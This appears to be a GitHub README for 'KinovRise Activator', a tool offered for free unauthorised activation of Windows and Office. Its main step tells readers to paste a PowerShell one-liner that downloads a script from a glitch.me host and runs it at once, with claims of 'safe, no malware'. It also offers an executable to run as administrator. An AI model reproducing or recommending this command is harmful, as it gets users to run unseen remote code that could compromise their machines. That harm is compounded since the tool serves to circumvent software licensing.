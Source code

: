 
<h1 align="center">KinovRise Activator 1.0 </h1>
<p align="center">KinovRise is our project that helps you activate Windows and Office as quickly as possible, for free, for multi-computer activation, easy to use , safe , no malware.</p>
<img alt=”Project's website” src=”https://img.shields.io/badge/react-%2320232a.svg?style=for-the-badge&logo=react&logoColor=%2361DAFB"/>
<hr>
  
## How to Activate Windows / Office?

### Fastest - Powershell

1.   **Open PowerShell**  
	To do that, press the Windows key + X, then select PowerShell or Terminal.

2.   **Copy and paste the code below, then press enter.**  
```
irm "https://kra-activated.glitch.me/kinovrise.ps1" | iex
```
### Use KinovRise.exe

If you cannot do method 1 as above, then we come to method 2: use KinovRise.exe, download it from the Release section, then run with administrator rights and activate as usual.

### Note !!

Note: The license will be renewed for 180 days when the user activates, then it will be renewed by the client connecting to the KinovRise server. If after 180 days the system does not renew, the user will reactivate to use! If the license activation fails, the user will use the Troubleshooter to Active Windows with the KinovRise license. Thank you!

### Support and Unsupported : 
[Check here](https://ranusteam41.github.io/ranusteam.github.io/supported_unsupported)
### Testing KinovRise
https://github.com/user-attachments/assets/d83c4b99-fc67-4dcb-9055-2bf88ecb538b
### Credits 
Project creator: TivinovDEv (https://github.com/TivinovDEv)
- Support: ranusTeam41
- If you have the heart, please help the software to develop and become more popular!
Information at:



<p align="center">Made with love ❤️</p>
